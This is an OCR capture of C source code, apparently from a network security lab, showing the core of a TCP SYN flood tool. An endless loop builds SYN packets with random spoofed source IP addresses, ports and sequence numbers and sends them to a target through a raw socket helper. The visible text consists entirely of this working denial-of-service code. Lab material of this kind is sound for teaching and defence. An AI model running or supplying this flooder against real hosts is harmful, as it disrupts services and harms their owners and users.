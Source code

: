 ```c
    srand(time(0)); // Initialize the seed for random # generation.
    while (1) {
        memset(buffer, 0, PACKET_LEN);
        /*********************************************************
          Step 1: Fill in the TCP header.
        ********************************************************/
        tcp->tcp_sport = rand(); // Use random source port
        tcp->tcp_dport = htons(DEST_PORT);
        tcp->tcp_seq   = rand(); // Use random sequence #
        tcp->tcp_offx2 = 0x50;
        tcp->tcp_flags = TH_SYN; // Enable the SYN bit
        tcp->tcp_win   = htons(20000);
        tcp->tcp_sum   = 0;

        /*********************************************************
          Step 2: Fill in the IP header.
        ********************************************************/
        ip->iph_ver = 4;   // Version (IPV4)
        ip->iph_ihl = 5;   // Header length
        ip->iph_ttl = 50;  // Time to live
        ip->iph_sourceip.s_addr = rand(); // Use a random IP address
        ip->iph_destip.s_addr = inet_addr(DEST_IP);
        ip->iph_protocol = IPPROTO_TCP; // The value is 6.
        ip->iph_len = htons(sizeof(struct ipheader) +
                           sizeof(struct tcpheader));

        // Calculate tcp checksum
        tcp->tcp_sum = calculate_tcp_checksum(ip);

        /*********************************************************
         Step 3: Finally, send the spoofed packet
        ********************************************************/
        send_raw_ip_packet(ip);
    }

    return 0;
}


/*************************************************************
  Given an IP packet, send it out using a raw socket.
**************************************************************/
void send_raw_ip_packet(struct ipheader* ip)
{
    struct sockaddr_in dest_info;
    int enable = 1;

    // Step 1: Create a raw network socket.
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

    // Step 2: Set socket option.
    setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
                     &enable, sizeof(enable));

    // Step 3: Provide needed information about destination.
    dest_info.sin_family = AF_INET;
    dest_info.sin_addr = ip->iph_destip;

    // Step 4: Send the packet out.
    sendto(sock, ip, ntohs(ip->iph_len), 0,
           (struct sockaddr *)&dest_info, sizeof(dest_info));
    close(sock);
}
```